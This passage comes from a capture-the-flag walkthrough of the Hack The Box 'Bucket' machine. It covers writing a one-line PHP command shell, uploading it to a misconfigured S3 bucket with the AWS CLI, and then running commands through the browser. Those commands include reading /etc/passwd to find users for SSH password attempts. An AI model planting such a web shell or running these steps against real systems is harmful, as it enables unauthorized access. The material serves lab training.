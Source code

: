 >**NOTE:** The first time that I did this machine, I spent a lot of time trying to get several PHP reverse shells to work. Eventually I did. However, once getting it to work, it ended up being more work than it was worth, as once I was in, I saw the only information that I needed to move forward without it. To make things even more complicating, any files that we upload to the S3 server will be cleaned out in what seems to be 0 second intervals. And on top of that, there seems to be a delay between the time that your PHP file is uploaded and the time that it is accessible from the browser. I am unsure why this is but it may have something to do with a web cache or perhaps the upload functions like an automatic subversion pull or something. We will work through these annoyances to get a php command shell uploaded, as this will get us the information that we need next.

Let's start by creating a basic php command shell in our working directory. This can be done with the following command.

``` bash
echo "<?php $c = system($_GET['cmd']); echo $c; ?>" > cmd.php
```

This will create a file named `cmd.php` that once uploaded will take the value passed to the `cmd` command and execute it on the system and then return the results to the page. \

We can now run the following command to copy the `cmd.php` file to the server.

``` bash
aws --endpoint-url http://s3.bucket.htb s3 cp cmd.php s3://adserver
```

This will result in the cmd.php file being uploaded to the site root of `bucket.htb`. We can navigate to `http://bucket.htb/cmd.php?cmd=whoami` in our browser to confirm this.

As noted before, after uploading the file it can take some time before it is available though the browser. You can confirm that it was uploaded by running the following `s3 ls` command. If you see it there, just keep refreshing your browser until the page loads successfully.

``` bash
aws --endpoint-url http://s3.bucket.htb s3 ls adserver/
```

![](/assets/images/htb-bucket/12.1_bucket_s3_shell_upload.png)

Knowing that we already have three passwords that were used for something in the environment, and that they do not work with ssh for the accounts that we found with them, we should use this command shell to get a list of the users on the machine and then attempt to use these passwords with those accounts to connect to it over ssh.

One you have uploaded and are able to access the `cmd.php`, go to the following in your browser to cat out the `/etc/passwd`.

```
view-source:http://bucket.htb/cmd.php?cmd=cat%20/etc/passwd
```
